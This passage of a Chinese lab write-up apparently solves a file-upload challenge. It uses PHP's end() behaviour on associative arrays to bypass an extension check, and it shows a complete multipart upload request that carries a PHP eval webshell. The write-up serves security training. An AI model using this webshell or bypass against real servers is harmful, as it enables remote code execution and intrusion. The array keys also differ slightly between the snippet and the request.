 * `save_name` 上传数组，可以避免继续划分
* `reset()`函数指向对象的第一个元素

* **`end()`与`[count()-1]`在关联数组（字典）下表现存在区别**

  * ```php
    <?php
    //end() 与 count($array)-1 的区别
    $filename = 'a.b.c.jpg';
    $array = explode('.', $filename);
    echo end($array).PHP_EOL;
    echo $array[count($array)-1].PHP_EOL;
    
    $array = ['id' => 1, 'username' => 'tom'];
    echo end($array).PHP_EOL;
    echo count($array).PHP_EOL;
    echo reset($array).PHP_EOL;
    ?>
      
    jpg
    jpg
    tom
    2
      
    1
    ```

  * 其中，`end()`取最后一个元素的值，`[]`不返回内容，`reset`返回第一个元素的值

* 构造`save_name`参数payload
  ```php
  <?php
    $save_name = ['payload' => 'pass20.php', 'username' => 'jpg'];
  ?>
  ```

* 作为POST参数上传
  ```http
  
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39
  Content-Disposition: form-data; name="upload_file"; filename="php_webshell.jpg"
  Content-Type: image/jpeg
  
  <?php eval($_GET['a']); ?>
  
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39
  Content-Disposition: form-data; name="save_name['payload']"
  
  pass20.php
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39
  Content-Disposition: form-data; name="save_name['pass']"
  
  jpg
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39
  Content-Disposition: form-data; name="submit"
  
  上传
  ------WebKitFormBoundaryNc9fAexSaWpAoQ39--
  ```
